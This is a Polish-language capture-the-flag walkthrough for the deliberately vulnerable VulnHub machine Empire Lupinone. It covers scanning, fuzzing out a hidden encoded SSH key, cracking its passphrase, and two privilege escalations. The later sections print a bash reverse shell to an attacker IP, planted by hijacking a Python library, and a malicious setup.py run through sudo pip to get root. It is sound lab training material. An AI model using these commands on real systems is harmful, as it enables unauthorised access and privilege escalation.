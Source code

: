 **CTF - Empire Lupinone**

**Autor**: adi7312

**Poziom Trudności**: Średni

**Link do maszyny wirtualnej**: [Empire Breakout II](https://www.vulnhub.com/entry/empire-lupinone,750/).



- [**CTF - Empire Lupinone**](#ctf---empire-lupinone)
  - [**1. Skanowanie sieci**](#1-skanowanie-sieci)
  - [**2. Skanowanie usług hosta oraz skanowanie podatności**](#2-skanowanie-usług-hosta-oraz-skanowanie-podatności)
  - [**3. Detekcja podatności**](#3-detekcja-podatności)
  - [**4. Faza eksploitacji**](#4-faza-eksploitacji)
  - [**5. Eskalacja uprawnień (icex64 -\> arsene)**](#5-eskalacja-uprawnień-icex64---arsene)
  - [**6. Eskalacja uprawnień (arsene -\> root)**](#6-eskalacja-uprawnień-arsene---root)



## **1. Skanowanie sieci**


**Cel:** Detekcja adresu IP maszyny **Empire Lupinone**

Sprawdzamy adres naszej sieci oraz maskę poleceniem `ifconfig`. Nasz adres sieci to 192.168.138.0 a maska to 255.255.255.0. Dokonujemy teraz skanowania sieci w celu poznania adresu IP maszyny **Empire Lupinone**. Używamy polecenia:

    sudo netdiscover -r 192.168.138.0/24


![](p/1.png)


Adres IP podatnej maszyny to 192.168.138.131

## **2. Skanowanie usług hosta oraz skanowanie podatności**

**Cel:** Enumeracja wersji usług hosta, detekcja systemu operacyjnego oraz przeprowadzenie skanowania podatności.

W celu enumeracji usług hosta oraz detekcji OS wpisujemy polecenie:


    sudo nmap -sV -O 192.168.138.131


![](p/2.png)


Nmap wykrył dwie usługi: *ssh* oraz *http*, natomiast wykryty system operacyjny to *Linux 4.15-5.6*.

Dokonujemy teraz skanowania podatności, użyjemy do tego narzędzia *OpenVas*. Konfigurujemy nowy *target* i nowy *task*, i uruchamiamy *task*.


![](p/3.png)


Niestety OpenVas za wiele nie wykrył. Będziemy musieli więc pogrzebać trochę w tej maszynie.


## **3. Detekcja podatności**

Sama strona 192.168.138.131 pokazuje jedynie obrazek, potwierdza to jednak to że usługa Apache jest uruchumiona, możemy zatem dokonać enumeracji, w tym celu skorzystamy z narzędzia *gobuster*. Wpisujemy zatem polecenie:

    gobuster dir --url 192.168.138.131 -w /usr/share/wordlists/dirb/common.txt


![](p/4.png)

Przyjrzyjmy się bliżej plikowi robots.txt, w przeglądarce wpisujemy `192.168.138.131/robots.txt` - plik robots.txt wskazuje jakie strony nie powinny być pokazywane w np. wyszukiwarce. 


![](p/5.png)


Jak widzimy serwer nie pozwala na pokazywanie strony z zawartością katalogu *~myfiles*.

Jednak gdy przejdziemy do katalogu *~myfiles* wyskoczy nam błąd. W samym kodzie źródłowym strony możemy zobaczyć komentarz *You can do it, keep trying*.


![](p/6.png)


Jak możemy zauważyć *gobuster* nie znalazł wcześniej folderu ~myfiles, prawdopodobnie wynika to z tego, że słownik który zawierał powszechne sformułowania nie zawierał znaku *~*, być może jest więcej takich stron gdzie mamy tyldę na początku. Zatem skorzystamy teraz z techniki *fuzzing* oraz narzędzia DirBuster, konfiguracja programu znajduje się poniżej.


![](p/7.png)


Po uruchomieniu możemy zauważyć, że istnieje folder o nazwie *~secret*.


![](p/8.png)


Po wpisaniu adresu `192.168.138.131/~secret` ukazuje nam się taka strona.


![](p/9.png)


Zatem w tym folderze najprawdopodobniej znajduje się prywatny klucz SSH, ponowanie uruchamiamy DirBustera w celu znalezienia tego pliku, tym razem z poniższą konfiguracją:


![](p/10.png)


Po chwili otrzymujemy dosyć długi output, uwagę przykuwa plik *.mysecret.txt*


![](p/11.png)


Sama zawartośc tego pliku wygląda następująco:


![](p/12.png)


Nie jest to jednak sam klucz prywatny SSH gdyż brakuje pewnego charakterystycznego zakończenia, mamy więc pewnie tutaj do czynienia z jakimś kodowaniem. Cipher identifier wskazał że mamy tu do czynienia najprawodpodobniej z Base58. Skorzystamy z strony do dekodowania Base58.


![](p/13.png)


Otrzymaliśmy klucz prywatny SSH. Output zapiszemy sobie do pliku *sshkey*.

## **4. Faza eksploitacji**

Teraz będziemy korzystać z skryptu *ssh2john*, który zamieny nasz klucz prywatny na format czytelny dla narzedzia *John The Ripper*.

(**Ważne jest aby wykonać tę operację jako root oraz należy skorzystać z pythona wersji 2.7**)

    /usr/share/john/ssh2john.py sshkey > sshkey.john


Następnie użyjemy poniższego polecenia w celu pozyskania *passphrase*.


    john --wordlist=/usr/share/wordlists/fasttrack.txt sshkey.john


![](p/14.png)


Otrzymaliśmy *passphrase* (hasło), które teraz wykorzystamy logując się przez ssh do naszego serwera 192.168.138.131. W tym celu korzystamy z polecenia:

    ssh -i sshkey icex64@192.168.138.131

Wpisujemy zdobyty wcześniej *passphrase* i otrzymujemy dostęp do maszny Lupinone.


![](p/15.png)


Po wpisaniu polecenia `ls` widzimy plik user.txt który zawiera pierwszą flagę.


![](p/flag1.png)


## **5. Eskalacja uprawnień (icex64 -> arsene)**

Uruchamiamy polecenie `sudo -l` - polecenie to pozwala sprawdzić, jakie polecenia i komendy użytkownik może wykonać z uprawnieniami superużytkownika


![](p/16.png)


Jak widzimy użytkownik icex64 może uruchomić pewien skrypt jako superużytkownik, zatem będziemy używać tzw. ***Python Library Hijacking***. Sam skrpyt niestety nie jest kompletny. Poszukajmy zatem plików które mają pełne uprawnienienia. Korzystamy z polecenia:


    find / -type f -perm -ug=rwx 2>/dev/null


Pełne uprawnienia posiada skrypt *webbrowser.py*, który jest importowany w skrypcie heist.py, ta słabość pozwoli nam na dokonanie eskalacji uprawnień, skorzystamy zatem teraz z *revers shell*. Dokonujemy zatem modyfikacji *webbrowser.py*, wpisujemy polecenie:

    

     os.system(“/bin/bash -c `+'/bin/bash -i >& /dev/tcp/192.168.138.130/1234 0>&1'”)


W drugim terminalu uruchamiamy polecenie które będzie nasłuchiwało aktywność na porcie 1234:

    nc -lvp 1234


Następnie uruchamiamy skrypt *heist.py*:

    sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py


## **6. Eskalacja uprawnień (arsene -> root)**
W oknie gdzie nasłuchiwaliśmy port 1234 wywołała się powłoka bash hosta *LupinOne*, tym razem jesteśmy użytkownikiem *arsene*. Wpisujemy polecenie `sudo -l`, jak widać możemy jako superużytkownik (*root*) wykonać polecenie *pip*. 


![](p/17.png)


W celu dokonania eskalacji uprawnień musimy wykonać szereg poleceń:


    TF=$(mktemp -d)

    echo “import os; os.execl(‘/bin/sh’, ‘sh’, ‘-c’, ‘sh <$(tty) >$(tty) 2>$(tty)’)” > $TF/setup.py

    sudo pip install $TF


Ostatencznie otrzymujemy roota, możemy to potwierdzić wpisując `id`, następnie przechodzimy do */root* wpisujemy `ls` i otwieramy ostatnią flagę.


![](p/flag2.png)






